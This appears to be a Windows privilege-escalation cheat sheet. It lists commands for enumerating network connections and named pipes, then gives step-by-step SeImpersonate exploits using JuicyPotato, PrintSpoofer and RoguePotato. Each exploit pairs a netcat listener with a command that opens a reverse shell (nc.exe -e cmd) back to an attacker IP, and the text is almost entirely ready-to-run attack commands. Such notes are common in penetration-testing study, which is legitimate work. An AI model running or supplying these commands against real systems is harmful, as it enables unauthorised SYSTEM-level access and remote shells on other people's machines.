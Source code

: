 ### Network Services & Named Pipes
```cmd
# Display Active Network Connections
netstat -ano

# List Named Pipes (PowerShell)
gci \\.\pipe\

# List Named Pipes (with Pipelist)
pipelist.exe /accepteula

# Review Named Pipe Permissions
accesschk.exe /accepteula \\.\Pipe\<pipe_name> -v
```

---

## 2. Windows User Privileges

### SeImpersonate and SeAssignPrimaryToken

#### JuicyPotato
```cmd
# Step 1: Check privileges
whoami /priv

# Step 2: Set up netcat listener
# On attacker machine
sudo nc -lnvp <Port>

# Step 3: Execute JuicyPotato
c:\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\nc.exe <Attacker_IP> <Port> -e cmd.exe" -t *
```

#### PrintSpoofer
```cmd
# Step 1: Verify Spooler service
Get-Service Spooler

# Step 2: Set up listener
sudo nc -lnvp <Port>

# Step 3: Execute PrintSpoofer
c:\PrintSpoofer.exe -c "c:\nc.exe <Attacker_IP> <Port> -e cmd"
```

#### RoguePotato
```cmd
# Step 1: Set up listener
sudo nc -lnvp <Port>

# Step 2: Execute RoguePotato
c:\RoguePotato.exe -r <Attacker_IP> -e "c:\nc.exe <Attacker_IP> <Port> -e cmd" -l 9999
```
